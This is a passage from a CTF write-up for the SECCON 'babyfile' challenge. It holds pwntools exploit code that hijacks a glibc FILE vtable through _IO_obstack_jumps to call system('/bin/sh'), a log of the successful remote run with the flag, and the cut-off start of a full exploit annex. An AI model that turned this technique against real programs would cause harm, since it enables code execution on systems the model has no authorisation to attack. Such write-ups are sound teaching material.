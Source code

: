 Which gives:
```py
_IO_obstack_jumps = leak + 0x1E9260
pwn.log.info(f"_IO_obstack_jumps: {hex(_IO_obstack_jumps)}")

# edit vtable => _IO_obstack_jumps
write_ptr(pwn.p64(_IO_obstack_jumps - 8 * 9), File.vtable)
write_ptr(pwn.p64(heap + 0x2a0), File.obstack)

partial_write(pwn.p8(0xff), File._IO_read_base)

write_ptr(pwn.p64(libc.sym.system), obstack.chunkfun) # fn ptr, system
write_ptr(pwn.p64(next(libc.search(b'/bin/sh'))), obstack.extra_arg) # arg
partial_write(pwn.p8(True), obstack.use_extra_arg)

fflush()
# system("/bin/sh")
```

# PROFIT

After optimizing a lot my exploit (my french connection sucks), here we are:
```bash
nasm@off:~/Documents/pwn/seccon/babyfile$ time python3 exploit.py REMOTE HOST=babyfile.seccon.games PORT=3157
[*] '/home/nasm/Documents/pwn/seccon/babyfile/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/nasm/Documents/pwn/seccon/babyfile/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to babyfile.seccon.games on port 3157: Done
[*] libc: 0x7fe2bc538000
[*] heap: 0x55fd27776000
[*] _IO_obstack_jumps: 0x7fe2bc721260
[*] Switching to interactive mode
SECCON{r34d_4nd_wr173_4nywh3r3_w17h_f1l3_57ruc7ur3}
[*] Got EOF while reading in interactive
$
```

# Annexes

{{< expand "Full exploit code" "..." >}}
Final exploit:
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

```